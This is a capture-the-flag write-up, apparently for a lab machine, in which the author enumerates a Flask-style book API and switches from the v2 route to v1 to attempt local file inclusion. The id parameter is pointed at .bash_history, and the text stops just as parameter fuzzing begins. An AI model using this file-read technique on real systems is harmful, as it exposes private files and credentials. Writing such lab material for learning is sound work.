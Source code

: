 
We got the documentation of the api, we got some routes we can analyze, if we go with:

```http
http://10.10.254.203:5000/api/v2/resources/books/all
```

We can see this:

```json
[
  {
    "author": "Vonda N. McIntyre",
    "first_sentence": "The little boy was frightened.",
    "id": "38\n",
    "published": 1979,
    "title": "Dreamsnake"
  }
]
```


As seen, the `id` parameter has got `\n`, if we try using curl in the following way, it still works:

```json
curl "http://10.10.254.203:5000/api/v2/resources/books?id=38%0A"
[
  {
    "author": "Vonda N. McIntyre",
    "first_sentence": "The little boy was frightened.",
    "id": "38\n",
    "published": 1979,
    "title": "Dreamsnake"
  }
]
```


I tried `command injection` and `LFI` but it didn't work, that's when i thought that maybe there was a `v1` of the `api`, if its true, then, this may be vulnerable to `LFI`, let's proceed to exploitation.



# EXPLOITATION
---


Let's try to change the route to `v1` in the following way:


```
"http://10.10.254.203:5000/api/v1/resources/books?id=.bash_history"
```

Since already know we need to read `bash_history`, we can use it to fuzz, now, let's fuzz changing the `id` character to check if there's any parameter that may give us the valid response:
